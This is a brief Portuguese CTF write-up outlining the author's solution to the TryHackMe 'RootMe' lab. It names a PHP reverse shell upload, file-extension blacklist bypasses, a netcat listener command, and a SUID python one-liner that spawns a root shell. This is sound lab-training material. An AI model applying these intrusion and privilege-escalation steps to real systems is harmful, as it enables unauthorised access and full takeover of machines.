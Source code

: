 # TryHackme - Rootme

[RootMe Room](https://tryhackme.com/room/rrootme)

### hangzou

1. **Reconhecimento**

   1. **Nmap Scan**
      - Portas
      - Serviços/Protocolos

   2. **Gobuster**
      1. Diretórios Ocultos
         - /panel/
         - /uploads/

2. **Shell Reverso**

   1. **PHP**
      - /usr/share/laudanum/php/php-reverse-shell.php
      - [Pentest Monkey PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

   2. **Blacklist Bypass**
      - .php3
      - .php4
      - .php5
      - .phtml

   3. **Netcat**
      - Endereço IP da Rede THM
      - nc -lvnp 4444
 
      > Solucionado com ajuda de Writeup

3. **Escalação de Privilégio**

   1. **Exploração de Permissão SUID**
      - /usr/bin/python 

      > Solucionado com ajuda de Writeup 

   2. **Python**
      - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
 
   3. **Root**
      - `cd /root/`
      - `ls`
      - root.txt
      - `cat root.txt`

## Concluido!

Writeup Consultado:
 
[Infosec Writeup](https://infosecwriteups.com/tryhackme-rootme-ctf-walkthrough-detailed-a7c521df7339)

Observação:

Essa anotação é apenas um teste, que visa descrever meu passo a passo da resolução dos desafios do TryHackMe.
